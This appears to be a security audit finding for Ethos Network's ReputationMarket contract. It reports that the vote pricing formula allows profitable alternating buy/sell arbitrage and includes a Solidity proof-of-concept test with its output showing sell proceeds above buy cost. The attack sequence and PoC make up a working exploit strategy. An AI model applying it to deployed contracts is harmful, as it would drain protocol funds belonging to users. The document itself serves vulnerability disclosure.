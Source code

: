 Proud Chartreuse Whale

High

# Flawed formula for calculating vote price allows for stealing funds from the protocol

### Summary

The votePrice calculation formula used by ReputationMarket.sol is flawed and enables attackers to drain funds from the protocol.

### Root Cause

For any sustainable pricing formula, the requirement is that instant buy/sell arbitrage should not exist ie. one must not be able to buy x amount and instantly sell x amount at a profit. The used formula here is flawed and allows an attacker to buy x items at a lower price and sell x items at a higher price instantly by varying the order of buying and selling


```Solidity
  function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
    uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
    return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes;
  }
```

[RepoLink](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L920-L923)



### Attack Path

Attacker buys 50 Trust and 50 Distrust tokens in an alternating manner ie. buy 1 Trust token, buy 1 Distrust token, buy 1 Trust token etc. Attacker has to spend 2.451308104035652034 eth for this (in the poc)

Attacker then sells 50 Trust tokens followed by selling of 50 Distrust tokens. Attacker obtains 3.093972758933192945 eth for this (in the poc)

In this way the totalSell amount can be made higher than the totalBuy amount  and can drain the protocol funds

### Impact

Current votePrice calculation is flawed and can be exploited using the above mentioned attack path and attackers can drain the protocol funds.

### PoC

```Solidity
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

contract EthosSellBuyPOCTest is Test {
    uint256 TRUST = 1;
    uint256 DISTRUST = 0;

    struct Market {
        uint256[2] votes;
        uint256 basePrice;
    }

    function _calcVotePrice(Market memory market, bool isPositive) private returns (uint256) {
        uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
        return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes;
    }

    function _calculateBuy(Market memory market, bool isPositive, uint256 amount) private returns (uint256 fundsPaid) {
        uint256 votePrice = _calcVotePrice(market, isPositive);

        

        for (uint256 i = 0; i < amount; i++) {
            fundsPaid += votePrice;
            market.votes[isPositive ? TRUST : DISTRUST] += 1;
            votePrice = _calcVotePrice(market, isPositive);
        }

        return fundsPaid;
    }

    function _calculateSell(Market memory market, bool isPositive, uint256 amount)
        private
        returns (uint256 fundsReceived)
    {
        uint256 votePrice = _calcVotePrice(market, isPositive);

        
        for (uint256 i = 0; i < amount; i++) {
            if (market.votes[isPositive ? TRUST : DISTRUST] <= 1) {
                revert("Underflow in votes");
            }

            market.votes[isPositive ? TRUST : DISTRUST] -= 1;
            votePrice = _calcVotePrice(market, isPositive);
            fundsReceived += votePrice;
        }

        return fundsReceived;
    }

    function testEthosSellGtBuy() public {
        // buy 100 votes sum going stepwise ie. 1 buy trust, 1 buy distrust
        Market memory market = Market({votes: [uint256(1), 1], basePrice: 0.05 ether});
        uint256 buySum;
        for (uint256 i = 0; i < 100; i++) {
            buySum += _calculateBuy(market, i % 2 == 0, 1);
        }

        uint256 sellSum;
        // sell one side continously ie. sell 50 trust, sell 50 distrust
        sellSum += _calculateSell(market, true, 50);
        sellSum += _calculateSell(market, false, 50);

        assert(market.votes[TRUST] == 1 && market.votes[DISTRUST] == 1);
        // sell 100 votes sum
        console.log("sellSum", sellSum);
        console.log("buySum", buySum);
        assert(sellSum > buySum);
    }
}
```

```Solidity
  sellSum 3093972758933192945
  buySum 2451308104035652034
```

### Mitigation

Use a more secure formula to calculate votePrices that cant be exploited by instant buy/sell arbitrage
